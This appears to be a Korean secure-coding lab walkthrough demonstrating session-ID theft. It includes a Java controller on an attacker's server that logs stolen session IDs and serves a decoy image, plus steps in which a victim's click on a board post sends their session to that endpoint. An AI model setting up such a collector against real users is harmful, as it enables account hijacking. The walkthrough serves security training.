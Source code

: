 (openeg의 ip와 포트로 셋팅)



2. 이해커는 자신의 서버 프로그램(TestController.java)에 다음과 같이 작성해 놓는다.

```java
@RequestMapping(value="/test/a.do")	
@ResponseBody	
public void testSecureCookie2(HttpServletRequest request, HttpServletResponse response) {		
    String clientSessionId=request.getParameter("sessionid");						System.out.println("Hacked clientSessionId:"+clientSessionId);	
    
    try {			
        File imgFile=new File("C:\\SecureCoding\\workspace\\.metadata\\.plugins\\org.eclipse.wst.server.core\\tmp0\\wtpwebapps\\openeg\\img\\hit.jpg");
        FileInputStream in=new FileInputStream(imgFile);
        ByteArrayOutputStream bs=new ByteArrayOutputStream();
        byte[] buffer=new byte[1024];
        int readlength=0;
        
        while((readlength=in.read(buffer)) != -1){
            bs.write(buffer,0,readlength);
        }
        
        byte[] imgbuf=null;
        imgbuf=bs.toByteArray();
        
        bs.close();
        in.close();
        
        int length=imgbuf.length;
        ServletOutputStream out=response.getOutputStream();
        out.write(imgbuf,0,length);			
        out.close();
    } catch (Exception e){
        e.printStackTrace();	
    }	
}
```

shirt + ctrl + o 누르기 ->  -> java.io에 들어간 걸로 선택



3. `C:\\SecureCoding\\workspace\\.metadata\\.plugins\\org.eclipse.wst.server.core\\tmp0\\wtpwebapps\\openeg\\img`에 들어 간 후 hit.jpg파일을 확인



4. 익명이 ASP게시판 사이트(게임 사이트라 가정)를 이용하려 링크를 클릭한다.

5. 익명이 이 글을 클릭하는 순간 자신의 세션id가 이해커에게 넘어간다. (제대로 되지 않을 때에는 브라우저 보안 수준을 내린다. 또는 a/a로 openeg에 로그인 후 주소 창에다 http://xxx.xxx.xxx.xxx:xxxx/openeg/test/a.do)을 복사하여 hit.jpg가 나오는지 확인 후 다시 해보기)-> 하나의 창에서 해야됨

   

6. ![4](https://user-images.githubusercontent.com/20276476/76927314-fac0d480-6921-11ea-972d-a9943e96e7c2.png)
